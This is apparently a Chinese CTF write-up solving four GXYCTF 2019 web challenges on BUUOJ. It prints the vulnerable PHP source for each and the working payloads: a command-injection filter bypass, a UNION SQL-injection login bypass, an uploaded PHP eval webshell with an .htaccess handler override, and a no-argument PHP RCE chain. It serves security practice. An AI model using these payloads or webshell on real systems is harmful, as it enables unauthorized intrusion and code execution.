


# GXYCTF 2019

## Ping Ping Ping

> *2021/07/02*

### 题目

还是个ping命令的题，直接上`;ls`，回显出两个文件，直接`cat`读取，被拦截了（），试试绕过，发现很多符号也被过滤了，用命令执行的绕过`$IFS$9`来绕过空格，显示出源码，发现`flag`被正则表达式包住了，这里采用拼接的形式进行绕过

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

### payload

```
?ip=;a=g;cat$IFS$9fla$a.php
```

## BabySQli

> *2021/07/13*

### 题目

看题目是个**SQL注入**的题，简单输入，发现回显中有提示信息

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
// base32
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
// base64
select * from user where username = '$name'
```

这道题的后台是采用这种方法实现的，我没想到，试了半天，学习一下

```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";

// 去除转义
if (get_magic_quotes_gpc()) {
	function stripslashes_deep($value)
	{
		$value = is_array($value) ?
		array_map('stripslashes_deep', $value) :
		stripslashes($value);
		return $value;
	}

	$_POST = array_map('stripslashes_deep', $_POST);
	$_GET = array_map('stripslashes_deep', $_GET);
	$_COOKIE = array_map('stripslashes_deep', $_COOKIE);
	$_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}

mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
// echo $sql;
$result = mysqli_query($con, $sql);


if(preg_match("/\(|\)|\=|or/", $name)){
	die("do not hack me!");
}
else{
	if (!$result) {
		printf("Error: %s\n", mysqli_error($con));
		exit();
	}
	else{
		// echo '<pre>';
		$arr = mysqli_fetch_row($result);
		// print_r($arr);
		if($arr[1] == "admin"){
			if(md5($password) == $arr[2]){
				echo $flag;
			}
			else{
				die("wrong pass!");
			}
		}
		else{
			die("wrong user!");
		}
	}
}

?>
```

### payload

```http
POST /search.php HTTP/1.1
Host: d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

name=1' union select 1,'admin','698458dc93cf1f38bd6a9436c20a4e34'#&pw=bme
```

## BabyUpload

> *2021/07/16*

### 题目

这道题和[你传你M呢](#你传你M呢)是同一类型的题，都是上传`webshell.jpg`配合`.htaccess`来解析控制服务器

### payload

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<script language='php'>eval($_POST['bme']);</script>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 430
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

## 禁止套娃

> *2021/07/21*

### 题目

页面上啥也没有



先用`ctf-wscan`扫下文件，发现存在`/.git/`目录，说明是**Git泄露**，`GitHack`跑一下，发现`index.php`

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

本质是个**代码执行**，第一层先把各种**伪协议**都过滤了，第二层参数只能为`*()`的无参数函数形式，第三层是过滤了一些关键字，这道题考察的是**无参数RCE**，常见的可能利用到的函数如下

| 函数名                           | 功能                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| `array_flip()`                   | 交换数组中的键和值                                           |
| `array_rand()`                   | 从一个数组中随机取出一个或者多个单元                         |
| `array_reverse()`                | 返回一个顺序相反的数组                                       |
| `current()/pos()`                | 返回当前元素                                                 |
| `end()`                          | 将数组内部指针指向最后一个单元                               |
| `key()`                          | 取得键名                                                     |
| `each()`                         | 返回数组中当前的键值对并将数组指针前移一位                   |
| `pev()`                          | 将数组的内部指针倒退以为                                     |
| `reset()`                        | 将数组的内部指针指向第一个单元                               |
| `next()`                         | 将数组的内部指针指向下一位                                   |
| `highlight_file()/show_source()` | 语法高亮一个文件                                             |
| `scandir()`                      | 列出指定路径中的文件和目录                                   |
| `direname()`                     | 给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名 |
| `getcwd()`                       | 取得当前工作目录                                             |
| `chdir($directory)`              | 将 PHP 的当前目录改为 directory                              |
| `get_defined_vars()`             | 此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量 |
| `getenv()`                       | 获取一个环境变量的值                                         |
| `localeconv()`                   | 返回一包含本地数字及货币格式信息的数组,第一个值一直是`.`     |
| `phpversion()`                   | 获取当前的PHP版本                                            |
| `session_id()`                   | 获取/设置当前会话 ID                                         |
| `session_start()`                | 启动新会话或者重用现有会话                                   |

先试试`print_r(scandir(pos(localeconv())));`



这样，我们只需要先把数组翻转过来`array_reverse()`，然后将数组指针指向下一个`next()`，再读取源码`highlight_file()/show_source()`就可以得到`flag`

### payload

```
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```
